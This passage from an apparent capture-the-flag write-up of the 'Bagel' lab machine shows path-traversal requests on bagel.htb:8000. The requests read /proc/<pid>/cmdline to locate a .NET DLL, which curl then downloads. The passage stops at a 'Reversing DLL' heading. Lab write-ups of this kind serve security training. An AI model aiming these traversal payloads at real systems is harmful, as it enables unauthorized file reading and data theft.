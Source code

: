 ```py
  app.run(host='0.0.0.0', port=8000)
```

* Port 5000 is running websocket.
* There is a comment talking about some `.dll` file.

Enumerating `/proc` directory for running processes and find `.dll` file path -> `page=../../../../proc/§0§/cmdline`

![](screenshots/http-bagel.htb-8000-LFI-proc-leak.png)

```bash
❯ curl 'http://bagel.htb:8000/?page=../../../../proc/927/cmdline' -o -
dotnet /opt/bagel/bin/Debug/net6.0/bagel.dll
❯ curl -s "http://bagel.htb:8000/?page=../../../../../opt/bagel/bin/Debug/net6.0/bagel.dll" -o bagel.dll
❯ file bagel.dll
bagel.dll: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```

## Reversing DLL
